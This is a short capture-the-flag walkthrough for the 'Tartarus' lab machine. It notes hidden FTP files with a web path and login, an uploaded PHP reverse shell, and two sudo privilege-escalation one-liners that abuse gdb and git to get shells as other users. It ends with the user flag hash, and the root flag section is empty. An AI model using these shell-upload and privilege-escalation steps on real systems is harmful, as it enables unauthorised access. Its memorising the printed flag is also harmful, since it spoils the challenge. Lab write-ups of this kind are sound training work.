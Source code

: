 # Tartarus



---------------------------

# [Task 1] Tartarus

> User and Root Flag

Find hidden files in ftp directories that include web url and logins:

```
/sUp3r-s3cr3t


enox:P@ssword1234
```

Upload classic revshell

Find in `/sUp3r-s3cr3t/images/uploads/revshell.php`

On the box, `sudo -l` showcases first privesc

```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

Second pivesc from `sudo -l`

```
sudo -u d4rckh /usr/bin/git help config
```

## 1. User Flag


```
0f7dbb2243e692e3ad222bc4eff8521f
```


## 2. Root Flag


